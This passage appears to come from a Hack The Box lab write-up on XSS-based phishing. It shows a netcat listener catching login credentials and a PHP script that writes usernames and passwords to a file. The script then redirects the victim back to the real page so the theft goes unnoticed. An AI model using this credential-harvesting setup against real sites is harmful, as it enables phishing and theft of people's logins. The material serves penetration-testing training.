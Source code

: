 
```shell-session
smoothment@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials`test:test`, and check the`netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):


```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a`netcat` listener, it will not handle the HTTP request correctly, and the victim would get an`Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call`index.php` and place it in`/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):


```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
 $file = fopen("creds.txt", "a+");
 fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
 header("Location: http://SERVER_IP/phishing/index.php");
 fclose($file);
 exit();
}
?>
```

Now that we have our`index.php` file ready, we can start a`PHP` listening server, which we can use instead of the basic`netcat` listener we used earlier:



```shell-session
smoothment@htb[/htb]$ mkdir /tmp/tmpserver
smoothment@htb[/htb]$ cd /tmp/tmpserver
smoothment@htb[/htb]$ vi index.php #at this step we wrote our index.php file
smoothment@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:
